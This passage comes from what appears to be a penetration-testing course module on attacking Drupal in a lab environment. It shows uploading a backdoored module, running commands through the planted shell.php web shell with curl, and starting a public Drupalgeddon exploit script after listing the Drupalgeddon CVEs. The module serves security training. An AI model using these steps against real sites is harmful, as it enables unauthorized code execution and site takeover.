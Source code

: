 Assuming we have administrative access to the website, click on `Manage` and then `Extend` on the sidebar. Next, click on the `+ Install new module` button, and we will be taken to the install page, such as `http://drupal.inlanefreight.local/admin/modules/install` Browse to the backdoored Captcha archive and click `Install`.

![](https://academy.hackthebox.com/storage/modules/113/module_installed.png)

Once the installation succeeds, browse to `/modules/captcha/shell.php` to execute commands.

```shell
curl -s drupal.inlanefreight.local/modules/captcha/shell.php?fe8edbabc5c5c9b7b764504cd22b17af=id

uid=33(www-data) gid=33(www-data) groups=33(www-data)

```

* * *

## Leveraging Known Vulnerabilities

Over the years, Drupal core has suffered from a few serious remote code execution vulnerabilities, each dubbed `Drupalgeddon`. At the time of writing, there are 3 Drupalgeddon vulnerabilities in existence.

- [CVE-2014-3704](https://www.drupal.org/SA-CORE-2014-005), known as Drupalgeddon, affects versions 7.0 up to 7.31 and was fixed in version 7.32. This was a pre-authenticated SQL injection flaw that could be used to upload a malicious form or create a new admin user.

- [CVE-2018-7600](https://www.drupal.org/sa-core-2018-002), also known as Drupalgeddon2, is a remote code execution vulnerability, which affects versions of Drupal prior to 7.58 and 8.5.1. The vulnerability occurs due to insufficient input sanitization during user registration, allowing system-level commands to be maliciously injected.

- [CVE-2018-7602](https://cvedetails.com/cve/CVE-2018-7602/), also known as Drupalgeddon3, is a remote code execution vulnerability that affects multiple versions of Drupal 7.x and 8.x. This flaw exploits improper validation in the Form API.


Let's walk through exploiting each of these.

* * *

## Drupalgeddon

As stated previously, this flaw can be exploited by leveraging a pre-authentication SQL injection which can be used to upload malicious code or add an admin user. Let's try adding a new admin user with this [PoC](https://www.exploit-db.com/exploits/34992) script. Once an admin user is added, we could log in and enable the `PHP Filter` module to achieve remote code execution.

Running the script with the `-h` flag shows us the help menu.

```shell
python2.7 drupalgeddon.py

  ______                          __     _______  _______ _____
 |   _  \ .----.--.--.-----.---.-|  |   |   _   ||   _   | _   |
 |.  |   \|   _|  |  |  _  |  _  |  |   |___|   _|___|   |.|   |
 |.  |    |__| |_____|   __|___._|__|      /   |___(__   `-|.  |
 |:  1    /          |__|                 |   |  |:  1   | |:  |
 |::.. . /                                |   |  |::.. . | |::.|
 `------'                                 `---'  `-------' `---'
  _______       __     ___       __            __   __
 |   _   .-----|  |   |   .-----|__.-----.----|  |_|__.-----.-----.
 |   1___|  _  |  |   |.  |     |  |  -__|  __|   _|  |  _  |     |
 |____   |__   |__|   |.  |__|__|  |_____|____|____|__|_____|__|__|
 |:  1   |  |__|      |:  |    |___|
 |::.. . |            |::.|
 `-------'            `---'

```